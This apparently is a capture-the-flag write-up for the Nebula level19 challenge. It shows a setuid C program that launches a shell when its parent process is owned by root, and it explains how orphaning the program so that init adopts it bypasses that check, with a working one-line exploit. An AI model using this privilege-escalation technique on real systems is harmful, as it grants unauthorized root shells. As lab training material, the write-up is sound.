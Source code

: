 ## Challenge
There is a flaw in the below program in how it operates.

## Solution
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
      printf("Unable to check parent process\n");
      exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
      /* If root started us, it is ok to start the shell */

      execve("/bin/sh", argv, envp);
      err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```
Program flow:
* construct path to parent process's directory in `/proc`
* retrieve directory's `stat` structure
* check if owner uid equals to `0` (root)
  * execute `/bin/sh` with given arguments

Ideas for exploitation:
* schedule a `cron` job to run the process (`cron` is a root owned daemon)
  * `cron` executes commands using a user owned shell, thus the parent of our process will not be root `cron`.
* kill the parent process, cause child to move to a new parent - root `init` process
  * race condition, parent should be killed before child executes critical code parts

### Init Parent Process
I found that executing `sh -c 'COMMAND &'` will cause the wanted effect.
```console
level19@nebula:/home/flag19$ sh -c './flag19 -c "echo hello world"&'
level19@nebula:/home/flag19$ hello world
```
